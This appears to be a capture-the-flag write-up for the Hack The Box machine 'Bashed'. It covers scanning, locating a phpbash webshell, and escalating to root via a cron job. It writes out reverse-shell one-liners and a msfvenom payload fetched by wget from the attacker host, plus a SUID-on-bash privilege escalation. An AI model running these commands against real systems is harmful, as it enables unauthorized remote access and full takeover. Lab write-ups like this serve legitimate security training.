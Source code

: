 ```yaml
---
title: Bashed
published: true
layout: post
---
```


<br />

---------------
Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted, the privilege escalation is based on deductions about timestamps.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/n7F_j56_pis?si=6Piixew4KatDnvxU" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.68 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Bashed/1.png)
<br />
<br />
<br />

There is **1 open port**:
+ **80/tcp**

<br />
Let's check which **service** is running in this port:

```bash
sudo nmap -sS 10.10.10.68 -p 80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![](/assets/Bashed/2.png)
<br />
<br />
<br />

We can see that the service corresponds to:
+ **22/tcp Apache 8.2p1**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.68 -p 80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![](/assets/Bashed/3.png)
<br />
<br />
<br />

We can see a few **folders**, but nothing really interesting.

<br />

------

<br />
### Foothold

This machine runs a **[GitHub project](https://github.com/Arrexel/phpbash)** which works as a **webshell**, the main difficulty of the foothold was **finding were the webshell is located** and **evading security measures** for reverse shells.

<br />

When entering the website, this is the first thing we can see:

![](/assets/Bashed/4.png)
<br />
<br />
<br />

A quick search in google revealed the project used in this website:

![](/assets/Bashed/5.png)
<br />
<br />
<br />

This project comprehends a semi-interactive webshell, which we can use to gain access to the machine. However, we first need to find where is this webshell located, we can use gobuster for this:

```bash
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,bak,php.bak,html -o gobuster_dir_and_file_enum_80.txt -t 25 -r
```

![](/assets/Bashed/6.png)
<br />
<br />
<br />

After checking in each folder, finally I found the webshell in ***/dev/phpbash.php***:

![](/assets/Bashed/7.png)
<br />
<br />
<br />

I tried to gain a reverse shell with commands like `bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1'` or `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 4444 >/tmp/f`, so I tried to **create a malicious file** and send it to the target machine:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=tun0 LPORT=4444 --platform linux -f elf -o revshell.elf
sudo python3 -m http.server 80
```
<br />

Now, from the webshell, we can download it, however, we have to **download it from */tmp***, as we have no write permissions:

```bash
cd $(mktemp -d)
wget http://10.10.16.9/revshell.elf
```

![](/assets/Bashed/8.png)
<br />
<br />
<br />

Now we just have to **setup a listener in our machine and execute the file**, but first we have to give the file **execution privileges**:

```bash
rlwrap nc -nlvp 4444
```

```bash
chmod 777 revshell.elf
./revshell.elf
```

![](/assets/Bashed/9.png)
<br />
<br />
<br />

And just like this we got the foothold on the machine:

![](/assets/Bashed/10.png)
<br />
<br />
<br />

We can **grab the flag**, located in the directory of the **user *arrexel***:

![](/assets/Bashed/11.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

For this privilege escalation, we first have to **pivot to another user and then to root**.

<br />

Enumerating www-data privileges, I discovered that it can **run any command without password as the user *scriptmanager***:

```bash
sudo -l
```

![](/assets/Bashed/12.png)
<br />
<br />
<br />

With this information we can pivot right away to this user:

```bash
sudo -u scriptmanager bash -i
```

![](/assets/Bashed/13.png)
<br />
<br />
<br />

Enumerating scriptmanager's files, I discovered a directory named /scripts:
```bash
find / -user $(whoami) -ls 2>/dev/null | grep -v -e "/proc/*" -e "/sys/*" -e "/run/*"
```

![](/assets/Bashed/14.png)
<br />
<br />
<br />

In this directory we can see **two files**, one owned by root and the other by scriptmanager, the **file owned by scriptmanager writes its contents to the file owned by root**, however it is **not specified in any place that it changes the ownership**, which means that **root is executing this script**.

![](/assets/Bashed/15.png)
<br />
<br />
<br />

We could confirm this by running the [PsPy](https://github.com/DominicBreuker/pspy?tab=readme-ov-file) tool, which indicates that a **CRON job** is running, which executes **every file ending in with a *.py* extension that is located in the */scripts* directory**:

![](/assets/Bashed/16.png)
<br />
<br />
<br />

Knowing this, we just have to **create a python file that set the SUID bit to the bash binary**:

```bash
echo "import os; os.system('chmod u+s /bin/bash')" > privesc.py
```

<br />

We can confirm that the script have been executed and escalate privileges:

```bash
bash -p
```

![](/assets/Bashed/17.png)
<br />
<br />
<br />

Finally, we can get our well-deserved **root flag**:

![](/assets/Bashed/18.png)
<br />
<br />
<br />
